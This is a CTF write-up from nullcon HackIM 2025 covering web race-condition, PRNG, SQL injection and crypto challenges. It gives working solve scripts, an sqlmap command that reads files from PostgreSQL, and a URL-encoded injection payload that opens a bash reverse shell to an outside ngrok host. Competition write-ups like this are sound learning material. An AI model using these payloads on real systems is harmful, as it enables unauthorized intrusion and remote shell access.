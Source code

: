 ```yaml
---
title: "nullcon HackIM CTF Berlin 2025"
date: 2025-09-12
description: "not too much..."
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups]
cover: 'https://ctf.nullcon.net/files/6e2a2b9a3c150ac95636f00c62fdeda9/HackIM_Screen.jpg'
translationKey: 'media'
stage: "evergreen"
toc: true
---
```



Congrats to RaptX got 2nd place! Also i first blooded 2 challs
![f 1](/commons/ctfs/nullconCTF2025/f4.png)
![f 2](/commons/ctfs/nullconCTF2025/f3.png)
## webby (first blood)

When we login, it set the variable `loggedIn=True` and the username is current username that we login (which is both conditions needed for the flag), and the `/mfa` checks the admin. But here the misconfiguration causes the race condition:
```py
...
        else:
            session.loggedIn = True             # <- race window start 
            session.username = i.username
            session._save()

        if check_mfa(session.get("username", None)):
            session.doMFA = True
            session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
            #session.tokenMFA = "acbd18db4cc2f85cedef654fccc4a4d8"
            session.loggedIn = False            # <- race window end 
            session._save()
...
```

```py
class flag:
    def GET(self):
        if not session.get("loggedIn",False) or not session.get("username",None) == "admin":
            raise web.seeother('/')
        else:
            session.kill()
            return render.flag(FLAG)
```
So we just need to call the `/flag` quickly when in the race window, here is solve script:

```py
import threading, requests, time, sys

BASE = "http://52.59.124.14:5010"     
USER, PW = "admin", "admin"

sess = requests.Session()            
sess.get(BASE+"/")                  

flag_found = threading.Event()

def racer():
    """Spray /flag until we win the race."""
    while not flag_found.is_set():
        r = sess.get(BASE+"/flag", allow_redirects=False, timeout=2)
        if r.status_code == 200:
            print("[+] FLAG:", r.text.strip())
            flag_found.set()
            break

threads = [threading.Thread(target=racer, daemon=True) for _ in range(10)]
for t in threads: t.start()

sess.post(BASE+"/", data={
    "username": USER,
    "password": PW,
    "submit":   "Login"
}, timeout=5)

for t in threads: t.join(1)
if not flag_found.is_set():
    print("[-] Didn’t win the race, run again or add more threads")

```


## pwgen 

Easily we can identify this is unsecure PRNG, here is solve script with ChatGPT :D 
```php
<?php

$shuffled_flag = "7F6_23Ha8:5E4N3_/e27833D4S5cNaT_1i_O46STLf3r-4AH6133bdTO5p419U0n53Rdc80F4_Lb6_65BSeWb38f86{dGTf4}eE8__SW4Dp86_4f1VNH8H_C10e7L62154";
$flag_length = strlen($shuffled_flag);

$identity_string = '';
for ($i = 0; $i < $flag_length; $i++) {
    $identity_string .= chr($i);
}

echo "Searching for the flag by reversing all possible shuffles (1 to 1000)...\n";

for ($n = 1; $n <= 1000; $n++) {
    srand(0x1337);
    $permuted_identity = '';
    for ($i = 0; $i < $n; $i++) {
        $permuted_identity = str_shuffle($identity_string);
    }

    $inverse_map = array_fill(0, $flag_length, 0);
    for ($shuffled_pos = 0; $shuffled_pos < $flag_length; $shuffled_pos++) {
        $char_at_shuffled_pos = $permuted_identity[$shuffled_pos];
        $original_pos = ord($char_at_shuffled_pos);
        $inverse_map[$shuffled_pos] = $original_pos;
    }

    $potential_flag_array = array_fill(0, $flag_length, '');
    for ($i = 0; $i < $flag_length; $i++) {
        $potential_flag_array[$inverse_map[$i]] = $shuffled_flag[$i];
    }
    $potential_flag = implode('', $potential_flag_array);

    if (strpos($potential_flag, '{') !== false && strpos($potential_flag, '}') !== false) {
        echo "--------------------------------------------------\n";
        echo "✅ Success! Found a potential flag at shuffle count (nthpw) = $n\n";
        echo "Flag: $potential_flag\n";
        echo "--------------------------------------------------\n";
        break; 
    }
}

?>
```

## dogfinder-v1

To be honest, i think ill be certificated prompt engineer after solve 2 versions of this black box challege, firstly i did sqlmap to find the sink that is `order` parameter, then i just prompt with the information i got (also i did research in paralel)

Payload for V1:

```bash
python3 sqlmap.py -u "http://52.59.124.14:5020/?order=id" -p order \
  --sql-query="SELECT pg_read_file('flag.txt',0,8192);" \
  --batch --threads=4 --time-sec=8 
```

## dogfinder-v2 (first blood)

I guess everyone is can easily do the v1, and lack a little lucky for v2, yall know its only have `pg_execute_server_program`, i tested multiple time with https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html?highlight=pentest%20postgre#rce then still no luck, after ~1 hour, i got the flag:  
  
![f 1](/commons/ctfs/nullconCTF2025/f1.png)

![f 2](/commons/ctfs/nullconCTF2025/f2.png)

Aight, but i still can't sleep tho, but somehow it has a bit longer then i tried to make rev shell and BOOM, it worked! Here is final payload:

```
http://52.59.124.14:5021/?order=1%3BSET%20ROLE%20pg_execute_server_program%3BCOPY%20(SELECT%20'')%20TO%20PROGRAM%20'bash%20-c%20"exec%20bash%20-i%20>%26%20/dev/tcp/0.tcp.ap.ngrok.io/12365%200>%261"'%3BSELECT%20'shell'%2C1%2C1%3B--
```

## A slice of keys 
yeah chatgpt carried me for this chall:

```python
from pwn import *
from math import gcd
from Crypto.Cipher import AES
import binascii

host = '52.59.124.14'
port = 5103

r = remote(host, port)

# Receive the ciphertext hex
cipher_hex = r.recvline().decode().strip()

# Known e
e = 1337

# Consume the first prompt
r.recvline()

# Function to get n by querying encryption for small m
diffs = []
for m in range(3, 11):  # Use a few small m
    print(m)
    r.sendline(f'e:{m}')
    c_str = r.recvline().decode().strip()
    c = int(c_str)
    M = pow(m, e)
    diff = M - c
    diffs.append(diff)
    # Consume the next prompt for the next iteration
    r.recvline()

# Compute gcd of all diffs to get n
n = diffs[0]
for d in diffs[1:]:
    n = gcd(n, d)

print(f"Recovered n: {n}")

# Cipher bytes
cipher_bytes = binascii.unhexlify(cipher_hex)

# Try each possible k
for k in range(1, e + 1):
    d_approx = (k * n) // e
    binary_str = bin(d_approx)[2:]
    if len(binary_str) < 256:
        continue
    bits = binary_str[0:256:2]
    if len(bits) != 128:
        continue
    key_int = int(bits, 2)
    key = key_int.to_bytes(16, 'big')
    decrypter = AES.new(key, AES.MODE_ECB)
    plain = decrypter.decrypt(cipher_bytes)
    
    # Unpad: count trailing 16's (0x10)
    pad_len = 0
    i = len(plain) - 1
    while i >= 0 and plain[i] == 16:
        pad_len += 1
        i -= 1
    # Allow pad_len 0 to 15
    if 0 <= pad_len <= 15:
        flag_bytes = plain[:-pad_len] if pad_len > 0 else plain
        try:
            flag = flag_bytes.decode('ascii')
            if all(32 <= ord(c) <= 126 for c in flag) and '{' in flag and '}' in flag:
                print(f"Flag: {flag}")
                break
        except UnicodeDecodeError:
            pass

r.close()

```